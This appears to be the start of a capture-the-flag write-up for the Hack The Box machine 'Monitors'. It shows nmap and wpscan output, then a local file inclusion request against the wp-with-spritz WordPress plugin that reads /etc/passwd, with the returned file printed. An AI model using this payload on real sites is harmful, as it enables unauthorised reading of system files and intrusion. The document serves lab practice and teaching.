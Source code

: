 ![MONITORS](banner.png)
```
sudo nmap -n -Pn -sS -A 10.10.10.238 --open -p-                                            

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Nothing out of the ordinary, after having a look at the website we immediately realized it is running wordpress so let's fire up wpscan:
```
[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
```

After a quick google search we found that this plugin is vulnerable to LFI and RFI: https://www.exploit-db.com/exploits/44544

So let's see if we can confirm that:

http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/passwd

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
```